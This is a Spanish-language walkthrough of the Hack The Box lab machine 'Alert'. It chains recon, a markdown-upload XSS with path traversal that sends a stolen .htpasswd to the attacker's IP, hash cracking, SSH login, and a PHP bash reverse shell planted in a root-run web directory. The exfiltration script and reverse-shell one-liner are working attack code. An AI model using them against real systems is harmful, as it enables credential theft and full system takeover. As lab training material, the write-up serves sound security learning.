

# Copy of gzzcooalert


<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con `Nmap` para ver los puertos que están expuestos en la máquina **`Alert`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.44 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-21 21:18 CET
Initiating SYN Stealth Scan at 21:18
Scanning 10.10.11.44 [65535 ports]
Discovered open port 22/tcp on 10.10.11.44
Discovered open port 80/tcp on 10.10.11.44
Completed SYN Stealth Scan at 21:18, 22.08s elapsed (65535 total ports)
Nmap scan report for 10.10.11.44
Host is up, received user-set (0.077s latency).
Scanned at 2025-01-21 21:18:21 CET for 22s
Not shown: 65532 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 22.17 seconds
           Raw packets sent: 69477 (3.057MB) | Rcvd: 69475 (2.779MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.44
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato `oN` y `oX` para posteriormente trabajar con ellos. Verificamos que al parecer se trata de una máquina Ubuntu que dispone de una página de `Apache`y servicio`SSH`.

```bash
❯ nmap -sCV -p22,80 10.10.11.44 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-21 21:25 CET
Nmap scan report for alert.htb (10.10.11.44)
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   82.01 ms 10.10.16.1
2   41.41 ms alert.htb (10.10.11.44)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.73 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el `XML` en un archivo `HTML` para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis

Añadiremos la siguiente entrada en nuestro archivo `/etc/hosts`, debido a que en el resultado de `Nmap`, nos aparecía que el sitio web nos redirigía a [http://alert.htb](http://alert.htb)

```bash
❯ catnp /etc/hosts | grep 10.10.11.44
10.10.11.44 alert.htb
```

## Web Enumeration

Accedemos al sitio web [http://alert.htb](http://alert.htb) en el cual parece ser un visualizado de archivos `.MD` (Markdown). Vemos que nos permite subir archivos en el sitio web.

<figure><figcaption></figcaption></figure>

Por otro lado, también comprobamos que disponemos de una página para contactar con los administradores del sitio web.

<figure><figcaption></figcaption></figure>

Crearemos el siguiente archivo `example.md` para subirlo al sitio web y visualizar el comportamiento de este.

```markdown
❯ catnp example.md
# h1 Heading 8-)
## h2 Heading
### h3 Heading
#### h4 Heading
##### h5 Heading
###### h6 Heading

Alternatively, for H1 and H2, an underline-ish style:

Alt-H1
======

Alt-H2
------
```

Subiremos este archivo `example.md` en el sitio web y le daremos a la opción de **View Markdown**.

<figure><figcaption></figcaption></figure>

Comprobaremos que ha interpretado el archivo de Markdown correctamente

<figure><figcaption></figcaption></figure>

Realizaremos **fuzzing** en el sitio web y logramos encontrar un nuevo subdominio llamado `statistics`.

```bash
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://alert.htb -H "Host:FUZZ.alert.htb" -ac -t 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://alert.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.alert.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

statistics              [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 94ms]// Some code
```

Añadiremos esta nueva entrada en el archivo `/etc/passwd`.

```bash
❯ cat /etc/hosts | grep 10.10.11.44
10.10.11.44 alert.htb statistics.alert.htb
```

Probaremos de acceder a [http://statistics.alert.htb ](http://statistics.alert.htb)y vemos que nos requiere de credenciales de acceso que no disponemos.

<figure><figcaption></figcaption></figure>

Realizaremos una enumeración de directorios y archivos PHP en el sitio web, y nos encontramos con la siguientes páginas.

```bash
❯ gobuster dir -u http://alert.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://alert.htb/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]
/css                  (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/messages             (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
/messages.php         (Status: 200) [Size: 1]
/contact.php          (Status: 200) [Size: 24]
```

## Initial Access

### Performing XSS injection to obtain .htpasswd with MarkDown file

En el siguiente artículo nos habla de los archivos `.htpasswd`. En la enumeración inicial, descubrimos que el sitio web se encontraba en un `Apache`. En el sitio web de `statistics.alert.htb` nos requería de credenciales de acceso.

Lo cual nos hace pensar que si lograramos llegar a visualizar el archivo `.htpasswd`, lograríamos obtener las contraseñas en formato hash.


.htpasswd es un archivo plano o de texto que contiene texto ASCII. Las estructuras de archivo .htpaswd son muy simples, donde cada línea almacena un nombre de usuario y contraseñas relacionadas. El nombre de usuario y la contraseña están delimitados por un signo de dos puntos.




Crearemos un archivo `payload.md` que contenga el siguiente contenido JavaScript. El objetivo de este script, es realizar un Local File Inclusion para visualizar el contenido `.htpasswd` de la página web `statistics.alert.htb` y otorgarnos el resultado en nuestro servidor web que montaremos posteriormente.

El archivo lo subiremos en el visualizador Markdown del sitio web.

```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.5/?file_content=" + encodeURIComponent(data));
  });
</script>
```

<figure><figcaption></figcaption></figure>

Al subir el archivo, nos da la opción de `Share Markdown` el cual nos porporciona un enlace.

<figure><figcaption></figcaption></figure>

Probaremos de acceder al apartado de `Contact Us` para validar si enviando este enlace a los administradores del sitio web, algún usuario llegase a ejecutarlo.

<figure><figcaption></figcaption></figure>

Desde nuestro servidor Web, verificaremos que hemos recibido el contenido del archivo `.htpasswd`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.44 - - [21/Jan/2025 22:41:26] "GET /?file_content=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -
```

Descodificaremos el contenido obtenido a través de `Cyberchef` y logramos tener el archivo en texto plano. Comprobamos que nos aparece el usuario `albert` y su contraseña en formato hash.

<figure><figcaption></figcaption></figure>

### Cracking Hashes

Comprobaremos el tipo de hash del cual se trata, nos muestra que es un hash de `Apache MD5`. Miraremos en `hashcat` cual es el modo del tipo de hash y al ejecutar la herramienta logramos crackear el hash y obtener la contraseña en texto plano.

```bash
❯ hashid '$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/'
Analyzing '$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/'
[+] MD5(APR) 
[+] Apache MD5 

❯ hashcat -h | grep Apache
   1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR)                      | FTP, HTTP, SMTP, LDAP Server
   
❯ hashcat -a 0 -m 1600 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...[snip]...

$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited 
```

### SSH connection with the new password cracked

Nos conectaremos mediante el servicio `SSH` con el usuario `albert` y verificamos que logramos acceder y visualizar la flag de **user.txt**.

```bash
❯ ssh albert@10.10.11.44
The authenticity of host '10.10.11.44 (10.10.11.44)' can't be established.
ED25519 key fingerprint is SHA256:p09n9xG9WD+h2tXiZ8yi4bbPrvHxCCOpBLSw0o76zOs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.44' (ED25519) to the list of known hosts.
albert@10.10.11.44's password: 

...[snip]...

albert@alert:~$ cat user.txt 
977a065a6***********************
```

## Privilege Escalation

### Reviewing of the processes running on the machine

Revisando los puertos internos que se encuentran en el equipo, verificamos que el puerto 8080 se encuentra abierto, lo cual parece ser que haya un servicio HTTP en dicho puerto.

```bash
albert@alert:~$ netstat -ano | grep LISTEN
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
```

Revisando los procesos que se encuentran en ejecución, visualizamos que el usuario `root` tiene en ejecución este proceso que se ejecuta en la ruta `/opt/website-monitor`.

```bash
albert@alert:~$ ps aux
...[snip]...
root        1003  0.0  0.6 207012 26488 ?        Ss   15:36   0:00 /usr/bin/php -S 127.0.0.1:8080 -t /opt/website-monitor
```

Realizaremos **SSH Port Forwarding** sobre el puerto 8080 hacía nuestro equipo local.

```bash
❯ ssh -L 127.0.0.1:8080:127.0.0.1:8080 albert@10.10.11.44
albert@10.10.11.44's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-200-generic x86_64)

Last login: Tue Jan 21 17:24:20 2025 from 10.10.16.5
albert@alert:~$
```

Accederemos desde nuestro navegador al puerto 8080 y comprobamos que se trata de la siguiente página web que no nos proporciona ningún tipo de información relevante.

<figure><figcaption></figcaption></figure>

### **Abusing Group Permissions to Create a PHP File on a Website and Gain Access as Root User**

Accediendo a la ruta que encontramos que el usuario `root` tenía en ejecución esta página web, nos encontramos en el directorio `config` disponemos de permisos para leer y ejecutar archivos en esta ruta, dado que el usuario actual, dispone del grupo `management`.

```bash
albert@alert:/opt/website-monitor/config$ id
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
albert@alert:/opt/website-monitor/config$ ls -l
total 4
-rwxrwxr-x 1 root management 49 Nov  5 14:31 configuration.php
```

Crearemos en este directorio que disponemos de acceso, un archivo PHP que nos establezca una Reverse Shell hacía nuestro equipo. Verificaremos que hemos logrado crear el archivo `gzzcoo.php` en la ruta `/opt/website-monitor/config`.

```bash
albert@alert:/opt/website-monitor/config$ cat gzzcoo.php 
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.5/443 0>&1'"); ?>
albert@alert:/opt/website-monitor/config$ ls -l
total 8
-rwxrwxr-x 1 root   management 49 Jan 21 17:33 configuration.php
-rwxrwxr-x 1 albert management 75 Jan 21 17:32 gzzcoo.php
```

Desde nuestra terminal de atacante, nos pondremos en escucha por el puerto especificado en el payload creado.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Realizaremos una petición por GET a través de la herramienta `cURL` sobre 127.0.0.1:8080/config/gzzcoo.php

```bash
❯ curl -s -X GET '127.0.0.1:8080/config/gzzcoo.php'
```

Dado que el servicio se ejecuta con los permisos del usuario `root`, al haber subido ese archivo PHP en la ruta donde teníamos acceso de escritura, su ejecución sería realizada por el mismo usuario `root`. Esto nos permitió que el usuario `root` ejecutara el payload de la Reverse Shell que subimos, dándonos así control total del sistema.

Comprobamos que podemos visualizar la flag de **root.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.44] 50392
bash: cannot set terminal process group (1003): Inappropriate ioctl for device
bash: no job control in this shell
root@alert:/opt/website-monitor/config$ cat /root/root.txt
2352161ea***********************
```
